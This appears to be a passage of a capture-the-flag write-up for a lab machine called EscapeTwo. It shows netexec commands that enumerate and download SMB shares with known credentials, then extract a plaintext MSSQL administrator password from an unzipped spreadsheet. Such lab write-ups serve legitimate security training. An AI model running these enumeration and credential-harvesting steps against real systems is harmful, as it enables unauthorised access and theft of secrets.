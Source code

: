 
{% code overflow="wrap" %}
```bash
# Enumerate shares
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su --shares
...
SMB         10.10.11.51     445    DC01             Accounting Department READ
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share
SMB         10.10.11.51     445    DC01             Users           READ

# Download the interesting shares
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=./ EXCLUDE_FILTER=admin$,c$,ipc$,netlogon,sysvol,users
...
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ file accounting_2024.xlsx
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate

$ unzip accounting_2024.xlsx -d accounting_2024
...
$ unzip accounts.xlsx -d accounts
...
```
{% endcode %}

{% code title="sharedStrings.xml" overflow="wrap" %}
```xml
...
  <si>
    <t xml:space="preserve">NULL</t>
  </si>
  <si>
    <t xml:space="preserve">sa@sequel.htb</t>
  </si>
  <si>
    <t xml:space="preserve">sa</t>
  </si>
  <si>
    <t xml:space="preserve">MSSQLP@ssw0rd!</t>
  </si>
</sst>
```
{% endcode %}
